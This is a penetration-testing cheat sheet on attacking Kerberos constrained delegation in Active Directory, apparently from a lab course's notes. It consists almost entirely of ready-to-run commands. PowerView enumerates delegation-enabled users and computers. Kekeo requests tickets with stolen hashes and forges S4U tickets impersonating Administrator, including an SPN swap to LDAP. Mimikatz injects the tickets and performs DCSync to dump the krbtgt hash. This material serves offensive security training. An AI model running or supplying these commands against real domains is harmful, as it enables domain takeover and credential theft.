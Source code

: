 # 🟢 Constrained Delegation

**Enumerate users with contrained delegation enabled**

```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

**Enumerate computers with contrained delegation enabled**

```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

### Constrained delegation User

**Requesting TGT with kekeo**

```
./kekeo.exe
Tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
```

**Requesting TGS with kekeo**

{% code overflow="wrap" %}
```
Tgs::s4u /tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
```
{% endcode %}

**Use Mimikatz to inject the TGS ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

### Constrained delegation Computer

**Requesting TGT with a PC hash**

```
./kekeo.exe
Tgt::ask /user:dcorp-adminsrv$ /domain:<domain> /rc4:<hash>
```

**Requesting TGS**

No validation for the SPN specified

{% code overflow="wrap" %}
```
Tgs::s4u /tgt:<kirbi file> /user:Administrator@<domain> /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```
{% endcode %}

### **Using mimikatz to inject TGS ticket and executing DCsync**

```
Invoke-Mimikatz -Command '"Kerberos::ptt <kirbi file>"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<shortdomain>\krbtgt"'
```
